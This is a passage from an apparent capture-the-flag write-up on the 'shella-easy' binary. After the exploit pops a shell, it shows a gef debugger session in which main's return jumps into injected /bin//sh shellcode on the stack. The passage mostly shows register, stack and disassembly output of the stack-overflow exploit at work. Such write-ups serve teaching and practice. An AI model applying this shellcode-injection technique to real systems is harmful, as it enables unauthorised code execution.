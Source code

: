 Just like that we popped a shell. Also one more thing I want to show, the shellcode we push on the stack can be disassembled to assembly instructions. Let's break right at the `ret` instruction which executes our shellcode (I did this by editing the breakpoint in the exploit to `0x0804855a`, then running it):

```
Breakpoint 1, 0x0804855a in main ()
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────── registers ────
$eax   : 0x0       
$ebx   : 0x31313131 ("1111"?)
$ecx   : 0xf7f475a0  →  0xfbad208b
$edx   : 0xf7f4887c  →  0x00000000
$esp   : 0xfff4cb1c  →  0xfff4cad0  →  0x6850c031
$ebp   : 0x31313131 ("1111"?)
$esi   : 0xf7f47000  →  0x001b1db0
$edi   : 0xf7f47000  →  0x001b1db0
$eip   : 0x0804855a  →  <main+127> ret
$eflags: [carry PARITY adjust ZERO sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063
───────────────────────────────────────────────────────────────────── stack ────
0xfff4cb1c│+0x0000: 0xfff4cad0  →  0x6850c031     ← $esp
0xfff4cb20│+0x0004: 0x00000000
0xfff4cb24│+0x0008: 0xfff4cbb4  →  0xfff4e297  →  "./shella-easy"
0xfff4cb28│+0x000c: 0xfff4cbbc  →  0xfff4e2a5  →  "QT_QPA_PLATFORMTHEME=appmenu-qt5"
0xfff4cb2c│+0x0010: 0x00000000
0xfff4cb30│+0x0014: 0x00000000
0xfff4cb34│+0x0018: 0x00000000
0xfff4cb38│+0x001c: 0xf7f47000  →  0x001b1db0
─────────────────────────────────────────────────────────────── code:x86:32 ────
    0x8048551 <main+118>       mov    eax, 0x0
    0x8048556 <main+123>       mov    ebx, DWORD PTR [ebp-0x4]
    0x8048559 <main+126>       leave  
 →  0x804855a <main+127>       ret    
   ↳  0xfff4cad0                  xor    eax, eax
      0xfff4cad2                  push   eax
      0xfff4cad3                  push   0x68732f2f
      0xfff4cad8                  push   0x6e69622f
      0xfff4cadd                  mov    ebx, esp
      0xfff4cadf                  push   eax
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "shella-easy", stopped, reason: BREAKPOINT
───────────────────────────────────────────────────────────────────── trace ────
[#0] 0x804855a → main()
────────────────────────────────────────────────────────────────────────────────
gef➤  s
0xfff4cad0 in ?? ()
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0x0       
$ebx   : 0x31313131 ("1111"?)
$ecx   : 0xf7f475a0  →  0xfbad208b
$edx   : 0xf7f4887c  →  0x00000000
$esp   : 0xfff4cb20  →  0x00000000
$ebp   : 0x31313131 ("1111"?)
$esi   : 0xf7f47000  →  0x001b1db0
$edi   : 0xf7f47000  →  0x001b1db0
$eip   : 0xfff4cad0  →  0x6850c031
$eflags: [carry PARITY adjust ZERO sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063
────────────────────────────────────────────────────────────────────────────────────── stack ────
0xfff4cb20│+0x0000: 0x00000000     ← $esp
```